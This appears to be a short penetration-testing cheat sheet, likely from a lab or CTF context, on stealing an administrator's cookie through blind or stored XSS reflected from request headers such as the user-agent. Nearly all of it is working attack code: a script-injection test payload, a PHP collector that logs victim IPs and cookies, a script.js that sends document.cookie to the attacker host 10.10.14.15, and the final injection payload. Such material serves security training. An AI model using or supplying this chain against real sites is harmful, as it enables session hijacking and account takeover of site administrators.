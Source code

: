 For this to work the content of the user request like the user-agent have to be reflected to a page or stored in logs for them to be seen in an admin or error panel.

# Stealing admin cookie
```
Test for XSS
 "><script src=http://10.10.14.15:9000/TESTING_THIS</script>

Once identified...
Create two files
1. index.php

<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

2. script.js

new Image().src='http://10.10.14.15:9200/index.php?c='+document.cookie

Start a web server ...

sudo php -S 0.0.0.0:9200

Execute the XSS payload in the vulnerable fields... 
"><script src=http://10.10.14.15:9200/script.js></script>

```